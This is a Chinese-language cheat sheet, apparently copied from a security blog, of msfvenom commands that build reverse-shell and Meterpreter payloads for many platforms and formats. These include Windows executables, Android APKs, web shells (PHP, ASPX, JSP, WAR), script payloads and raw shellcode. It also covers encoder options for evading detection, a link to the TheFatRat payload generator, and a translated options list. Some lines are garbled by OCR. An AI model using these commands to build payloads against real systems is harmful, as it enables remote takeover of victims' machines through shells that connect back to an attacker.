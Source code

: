 # windows:

> 原文：[http://book.iwonder.run/安全技术/常用命令/msfvenom 常用生成 payload 命令.html](http://book.iwonder.run/安全技术/常用命令/msfvenom 常用生成 payload 命令.html)

```
 msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST= 攻击机 IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe 
```

# mac:

```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机 IP LPORT=攻击机端口 -f macho -o payload.macho 
```

# android: //需要签名

```
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻 击机 IP LPORT=攻击机端口 -f apk -o payload.apk 
```

# powershell:

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST= 攻击机 IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1 
```

# linux:

```
 msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻 击机 IP LPORT=攻击机端口 -f elf -o payload.elf 
```

# php:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php cat shell.php | pbcopy && echo ' shell.php && pbpaste >> shell.php 
```

# aspx:

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= 攻击机 IP LPORT=攻击机端口 -f aspx -o payload.aspx 
```

# jsp:

```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机 IP LPORT=攻 击机端口 -f raw -o payload.jsp 
```

# war:

```
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机 IP LPORT=攻击机端口 -f raw - o payload.war 
```

# nodejs:

```
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机 IP LPORT=攻击机端口 -f raw -o payload.js 
```

# python:

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机 IP LPORT=攻击机端口 - f raw -o payload.py 
```

# perl:

```
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机 IP LPORT=攻击机端口 -f raw -o payload.pl 
```

# ruby:

```
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机 IP LPORT=攻击机端口 -f raw -o payload.rb 
```

# lua:

```
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机 IP LPORT=攻击机端口 -f raw -o payload.lua 
```

# windows shellcode:

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST= 攻击机 IP LPORT=攻击机端口 -f c 
```

# linux shellcode:

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻 击机 IP LPORT=攻击机端口 -f c 
```

# mac shellcode:

```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机 IP LPORT=攻击机端口 -f c 
```

补充说明

```
便捷化 payload 生成： 项目地址：https://github.com/Screetsec/TheFatRat root@John:~/Desktop# 

git clone https://github.com/Screetsec/TheFatRat.git //设置时需要挂墙

附录： 中文使用说明： Options: -p, --payload 使用指定的 payload --payload-options 列出该 payload 参数 -l, --list [type] 列出所有的 payloads -n, --nopsled 为 payload 指定一个 nopsled 长度 -f, --format 指定 payload 生成格式 --help-formats 查看所有支持格式 -e, --encoder 使用编码器 -a, --arch 指定 payload 构架 --platform 指定 payload 平台 --help-platforms 显示支持的平台 -s, --space 设定 payload 攻击荷载的最大长度 --encoder-space The maximum size of the encoded payload (defaults to the -s value) -b, --bad-chars 指定 bad-chars 如: '\x00\xff' -i, --iterations 指定编码次数 -c, --add-code 指定个 win32 shellcode 文件 -x, --template 指定一个 executable 文件作为模板 -k, --keep payload 自动分离并注入到新的进程 -o, --out 存放生成的 payload -v, --var-name 指定自定义变量 --smallest Generate the smallest possible payload -h, --help 显示帮助文件 Micropoor 
```

